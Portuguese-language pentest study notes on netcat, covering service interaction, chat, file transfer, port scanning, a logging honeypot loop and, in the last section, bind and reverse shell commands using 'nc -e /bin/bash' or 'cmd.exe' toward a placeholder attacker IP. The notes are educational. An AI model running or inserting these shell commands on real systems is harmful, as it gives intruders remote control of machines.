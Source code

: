 
# Port Forwarding

Encaminhamento de portas - quando um pacote chegar ao roteador, esse vai conseguir encaminhar para o IP correto do servico.
Em pentest, isso e util principalmente quando queremos acessar servicos atras de Firewalls, usando a **conexao reversa** que sera explicada adiante, fazendo o servidor se conectar a nossa maquina e enviar a *shell*

# Swiss Army Knife

Canivete Suico - varias possibilidades em um unico produto
Para pentest
- Estabelecer e receber conexoes
- Banner grabbing (Interacao com servicos)
- Chat
- Transferencia de arquivos
- Honeypot
- Scanning
- Execucao de comandos remoto

Exemplos como netcat, ncat, socat, sdb, cryptcat

# NETCAT

Geralmente usando `nc` na maioria das *distros* linux.

## Interagindo com servicos

A sintaxe padrao e `nc {site/ip} {porta}`, dessa forma conseguimos interagir diretamente com um servico. Nesse caso sera necessario tbm entender a sintaxe do servico que esta interagindo.

## Chat e IP logger

Podemos usar tambem o netcat para abrir portas na maquina, com `nc -vlp {porta}` onde o *v para verbose*, *l de listen* e *p de port*. Abrindo essa porta podemos em outras maquina nos conectar por netcat com o `nc {ip do host que abriu a pota} {porta aberta}` como nao tem nenhum servico aberto, isso funcionaria como um "chat", tudo que voce digita em um dos terminais ira aparecer no outro.Tanto do host > listen como o inverso, essa conexao **nao e criptografada!** Outro ponto interessante, se eu abrir a porta **80** como listen, usando a sintaxe `nc -vlnp 80` onde o N nao resolve o nome como ip, e alguem acessar meu IP pelo navegador tambem sera mostrado essa tentativa de conexao, retornando o user agent.

## UDP e File Transfer

A sintaxe muda um pouco, com `nc -vnlup {porta}` estabelecemos uma coenxao **UDP**, para conectar usamos `nc -vnu {porta}`, sem servico funciona da mesma forma como "chat".

Para enviar arquivos, abrimos uma porta e no final direcionamos o que vem para um arquivo. E no servidor que vai se conectar, o arquivo para a conexao.

## Port Scanning

`nc -vzd {ip ou site} {porta}` com a opcao **z** vemos o status de uma porta, podemos usar a sintaxe `nc -vzd {ip ou site} porta_inicial-portafinal` exemplo `nc -vzd www.businesscorp.com.br 20-30` para procurar o status da porta 20 ate a 30. Podemos varrer todas as 65535, mas demora bem mais que outros por scanners, como o que fiz em python a alguns meses. Outra alternativa e usar o bash/shell scripting e ler um arquivo usando `cat` por exemplo.

## Honeypot

Atrair o atacante para uma armadilha, simulando portas abertas, quando alguem se conectar nessas portas, podemos acompanahr os movimentos.

Usando um *&* no final do codigo o processo fica executando em background, entao no Netcat usariamos `nc -vnlp {porta}`, dessa forma, quando alguem se conectar ira aparecer no terminal.

Para criar um honepote, podemos por exemplo criar um **banner** em *.txt*, exemplo simulando o banner do FTP, e outro arquivo *.log*, para ambos damos permissao total com `sudo chmod 777` nos dois arquivos.
Agora aprimos a porta com `nc -vnlp {porta} < banner.txt` assim direcionamos a saida ao arquvio de banner criado, exibidno por exemplo o banner de um servidor FTP com informacoes falsas do nosso sistema. O seguinte precisamos direcionar para o *.log* usando agora `nc -vnlp {porta} < banner.txt >> file.log 2>> file.log`,  importante usador dois *sinais de maior que* para gravar no final do arquivo e nao substituir. Outro ponto sobre, e que usando `2>>` direcionamos tambem erros para um arquivo de log e gravamos no final estes. Dessa forma as tentativas de interacao com o honeypot ficam armazenadas, ainda podemos melhorar o script com `while true; do nc -vnlp {porta} < banner.txt >> file.log 2>> file.log;echo $(date) >> file.log;done` trazendo tambem a data e hora do que foi escrito no shell, e adicionado o *while true;do* impede que abrindo a primeiro conexao o netcat caia apos a primeira conexao ser encerrada.

Usos desse honeypot seria por exemplo filtrar os IPs que se conectam as portas falsas e incluir em uma regra de bloqueio de firewall.

## Bind shell X Reverse shell

- **Bind shell** -> Maquina atacante conecta diretamente na porta do alvo, ao conectar **executa** a shell.

Usando netcat, temos a opcao `-e` que permite a execucao de um programa apos a conexao estabelecida.
Na maquina alvo abrimos uma porta `nc -vnlp {porta} -e /bin/bash` no caso de linux ou `nc -vnlp {porta} -e cmd.exe` para windows.
Na maquina atacante usamos `nc -vn {ip alvo} {porta}` e ja temos um shell, podemos digitar comandos diretamente no terminal.



- **Reverse shell** -> Maquina atacante fica esperando uma conexao, maquina alvo conecta e **envia** a shell

No reverse shell, iniciamos com a **maquina do atacante** escutando em uma porta exemplo `nc -vnlp {porta}` e entao na **maquina alvo**  `nc -vn {ip do atacante} {porta} -e cmd.exe # ou /bin/bash para linux` aqui nos conectamos na maquina atacante e enviamos o shell para ela.